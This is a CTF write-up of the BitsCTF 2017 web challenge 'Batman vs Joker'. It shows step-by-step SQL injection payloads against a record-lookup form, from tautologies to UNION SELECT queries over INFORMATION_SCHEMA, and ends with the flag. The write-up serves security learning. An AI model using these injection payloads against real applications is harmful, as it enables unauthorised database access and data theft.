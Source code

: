 _[<<< Return to BitsCTF 2017 tasks and writeups](/CTF-Jeopardy/2017-bitsctf)_
# Batman vs Joker (Web, 30 points)

>Joker has left a message for you.
Your job is to get to the message asap. joking.bitsctf.bits-quark.org

This challenge looks like the "low" level of
[Damn Vulnerable Web Application](http://www.dvwa.co.uk/).

This website allows us to query the "CIA Ofiicial Records" (sic) by entering an id in the textbox.

```
>>> id: 1
First name:Harry
Surname: Potter
```

```
>>> id: 2
First name:Hermione
Surname: Granger
```

```
>>> id: 3
First name:Ronald
Surname: Weasley
```

```
>>> id: 4
First name:Joker
Surname: Joker
```

Now let's try some basic [SQL injections](https://www.owasp.org/index.php/SQL_Injection).

```
>>> id: 1'
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

```
>>> id: 1' OR '1'='1'#
First name:Harry
Surname: Potter

First name:Hermione
Surname: Granger

First name:Ronald
Surname: Weasley

First name:Joker
Surname: Joker
```

Name of all the databases?

```
>>> id: ' UNION SELECT 1, schema_name FROM INFORMATION_SCHEMA.SCHEMATA#
First name:1
Surname: information_schema

First name:1
Surname: hack

First name:1
Surname: mysql

First name:1
Surname: performance_schema
```

Name of tables in the 'hack' database?

```
>>> id: ' UNION SELECT 1, table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='hack'#
First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker
```

Name of columns in the 'Joker' table?

```
>>> id: ' UNION SELECT 1, column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Joker'#
First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Let's grab the flag and the points!

```
>>> id: ' UNION SELECT Flag, HaHaHa from Joker#
First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
```
